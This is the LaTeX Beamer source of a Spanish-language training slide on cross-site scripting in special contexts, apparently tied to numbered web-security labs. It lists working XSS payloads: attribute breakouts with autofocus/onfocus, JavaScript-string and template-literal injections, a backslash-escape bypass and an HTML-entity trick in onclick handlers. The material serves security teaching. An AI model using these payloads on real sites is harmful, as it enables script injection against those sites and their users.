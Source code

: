 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{XSS en contextos especiales --- atributos y JS strings}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Inyección en atributos (Lab 33)
  \item Input en: \textless{}input value=\textquotedbl{}VALOR\textquotedbl{}\textgreater{} con \textless{} \textgreater{} codificados
  \item Payload: \textquotedbl{} autofocus onfocus=alert(1) x=\textquotedbl{}
  \item $\rightarrow$ \textless{}input value=\textquotedbl{}\textquotedbl{} autofocus onfocus=alert(1) x=\textquotedbl{}\textquotedbl{}\textgreater{}
  \item Inyección en string JS (Lab 35)
  \item Input en: var x = 'VALOR'; con \textless{} \textgreater{} codificados
  \item Payload: '-alert(document.domain)-' o ';alert(1)//
  \item Escapes de backslash y comilla (Lab 44)
  \item La app escapa ' $\rightarrow$ \textbackslash\{\}' y \textbackslash\{\} $\rightarrow$ \textbackslash\{\}\textbackslash\{\}
  \item Si solo escapa la comilla: \textbackslash\{\}\textbackslash\{\}' rompe el escape $\rightarrow$ inyecta
  \item Si escapa ambos: usar template literals `\$\{alert(1)\}`
  \item Template literals JS (Lab 47)
  \item Input en: let msg = `Bienvenido, \$\{nombre\}`;
  \item Payload: \$\{alert(document.domain)\}
  \item Inyección en onclick con HTML entities (Lab 46)
  \item onclick=\textquotedbl{}x='VALOR';\textquotedbl{} --- body con HTML encoding
  \item \&apos; decodifica a ' dentro del handler onclick
  \item Payload: \&apos;-alert(1)-\&apos;
  \end{itemize}
\end{frame}
\end{document}
